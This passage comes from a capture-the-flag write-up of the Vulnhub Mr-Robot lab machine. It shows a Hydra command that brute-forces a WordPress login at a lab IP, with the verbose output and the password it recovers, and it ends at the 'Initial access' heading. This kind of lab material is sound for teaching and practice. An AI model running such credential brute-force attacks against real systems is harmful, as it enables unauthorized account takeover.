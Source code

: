 ![Image](/assets/img/WriteUp/Vulnhub/MrRobot/Pasted image 20230305152955.png){: width="700" height="400" }

As soon as we have a valid username, it is time to bruteforce the password with Hydra.
```bash
┌──(emvee㉿kali)-[~/Documents/Vulnhub/MR-Robot]
└─$ hydra -vV -l elliot -P new-list.dic $ip http-post-form '/wp-login.php:log=^USER^&pwd=^PASS^&wp-submit=Log+In:F=is incorrect' 
Hydra v9.4 (c) 2022 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2023-03-05 15:17:11
[DATA] max 16 tasks per 1 server, overall 16 tasks, 11452 login tries (l:1/p:11452), ~716 tries per task
[DATA] attacking http-post-form://10.0.2.23:80/wp-login.php:log=^USER^&pwd=^PASS^&wp-submit=Log+In:F=is incorrect
[VERBOSE] Resolving addresses ... [VERBOSE] resolving done
[ATTEMPT] target 10.0.2.23 - login "elliot" - pass "000" - 1 of 11452 [child 0] (0/0)
[ATTEMPT] target 10.0.2.23 - login "elliot" - pass "000000" - 2 of 11452 [child 1] (0/0)
[ATTEMPT] target 10.0.2.23 - login "elliot" - pass "000080" - 3 of 11452 [child 2] (0/0)[ATTEMPT] target 10.0.2.23 - login "elliot" - pass "001" - 4 of 11452 [child 3] (0/0)
[ATTEMPT] target 10.0.2.23 - login "elliot" - pass "002" - 5 of 11452 [child 4] (0/0)
[VERBOSE] Page redirected to http[s]://10.0.2.23:80/wp-login.php?redirect_to=http%3A%2F%2F10.0.2.23%3A80%2Fwp-admin%2F&reauth=1


<--- SNIP --->


[ATTEMPT] target 10.0.2.23 - login "elliot" - pass "esteem" - 5648 of 11452 [child 6] (0/0)
[ATTEMPT] target 10.0.2.23 - login "elliot" - pass "Estudiante" - 5649 of 11452 [child 9] (0/0)
[ATTEMPT] target 10.0.2.23 - login "elliot" - pass "etc" - 5650 of 11452 [child 0] (0/0)
[ATTEMPT] target 10.0.2.23 - login "elliot" - pass "etherial" - 5651 of 11452 [child 12] (0/0)
[ATTEMPT] target 10.0.2.23 - login "elliot" - pass "Ethics" - 5652 of 11452 [child 4] (0/0)
[ATTEMPT] target 10.0.2.23 - login "elliot" - pass "etiquette" - 5653 of 11452 [child 8] (0/0)
[ATTEMPT] target 10.0.2.23 - login "elliot" - pass "euphoric" - 5654 of 11452 [child 1] (0/0)
[ATTEMPT] target 10.0.2.23 - login "elliot" - pass "evaimages" - 5655 of 11452 [child 15] (0/0)
[80][http-post-form] host: 10.0.2.23   login: elliot   password: ER28-0652
[STATUS] attack finished for 10.0.2.23 (waiting for children to complete tests)
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2023-03-05 15:20:12

```
Hydra has identified valid credentials.

Credentials:
```
elliot:ER28-0652
```

------
## Initial access
